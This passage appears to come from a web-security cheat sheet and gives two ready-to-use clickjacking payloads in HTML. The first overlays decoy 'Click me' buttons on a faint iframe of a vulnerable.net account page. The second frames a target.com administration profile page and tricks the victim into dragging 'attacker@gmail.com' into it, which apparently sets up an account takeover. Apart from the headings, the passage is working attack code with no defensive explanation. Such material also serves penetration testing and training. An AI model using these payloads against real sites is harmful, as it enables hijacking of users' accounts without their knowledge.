 ### Multistep Payload

```markup
<style>
   iframe {
       position:relative;
       width: 500px;
       height: 500px;
       opacity: 0.1;
       z-index: 2;
   }
   .firstClick, .secondClick {
       position:absolute;
       top:330px;
       left:60px;
       z-index: 1;
   }
   .secondClick {
       left:210px;
   }
</style>
<div class="firstClick">Click me first</div>
<div class="secondClick">Click me next</div>
<iframe src="https://vulnerable.net/account"></iframe>
```

### Drag\&Drop + Click payload

```markup
<html>
<head>
<style>
#payload{
position: absolute;
top: 20px;
}
iframe{
width: 1000px;
height: 675px;
border: none;
}
.xss{
position: fixed;
background: #F00;
}
</style>
</head>
<body>
<div style="height: 26px;width: 250px;left: 41.5%;top: 340px;" class="xss">.</div>
<div style="height: 26px;width: 50px;left: 32%;top: 327px;background: #F8F;" class="xss">1. Click and press delete button</div>
<div style="height: 30px;width: 50px;left: 60%;bottom: 40px;background: #F5F;" class="xss">3.Click me</div>
<iframe sandbox="allow-modals allow-popups allow-forms allow-same-origin allow-scripts" style="opacity:0.3"src="https://target.com/panel/administration/profile/"></iframe>
<div id="payload" draggable="true" ondragstart="event.dataTransfer.setData('text/plain', 'attacker@gmail.com')"><h3>2.DRAG ME TO THE RED BOX</h3></div>
</body>
</html>
```
